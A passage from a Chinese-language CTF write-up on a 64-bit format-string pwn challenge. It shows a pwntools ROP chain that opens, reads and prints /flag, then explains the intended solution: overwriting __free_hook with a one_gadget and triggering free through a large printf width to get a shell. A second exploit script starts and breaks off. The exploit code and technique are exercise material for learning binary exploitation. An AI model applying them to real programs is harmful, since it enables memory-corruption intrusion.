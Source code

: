 ```python

# start rop
ropchain = [
            # open('/flag',0,0x100)
            p64(prdi), p64(stack_base-112),# -> /flag
            p64(prsi), p64(0),
            p64(prdx), p64(0x100),
            p64(libc_open),
            # read(0,buf,0x100)
            p64(prdi), p64(3),
            p64(prsi), p64(stack_base),
            p64(prdx), p64(0x100),
            p64(libc_read),
            # write(1,buf,0x100)
            p64(prdi), p64(1),
            p64(prsi), p64(stack_base),
            p64(prdx), p64(0x100),
            p64(libc_write),
            p64(0xdeadbeef),
            '/flag\0\0\0'
]

# debug('b *'+hex(p6r))

flush('\x90')
sl(''.join(ropchain))

# close stdin to break loop (so one_gadget does not work)
# p.stdin.close()
# shutdown sent also work
p.shutdown("send") 

p.interactive()
```

> p.s.做`simple_rop`的时候还说没必要专门搞个`Ubuntu16`的环境，结果做这题时就装个虚拟机....真香

------

>  pp.s.以上是我的菜鸡解法......

### 预期解

后来看到了[0CTF 2017 Quals: EasiestPrintf](https://poning.me/2017/03/23/EasiestPrintf/) 原来`scanf`和`printf`都有可能触发`malloc`和`free`

>  `printf("%100000c");`的时候就会触发`malloc`申请字符缓冲区，用完后会`free`掉缓冲区

因此...直接改`__free_hook`为`one_gadget`，然后输入`"%100000c"`触发`free`就拿到shell了......

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './fmt64'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc-2.23.so'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
```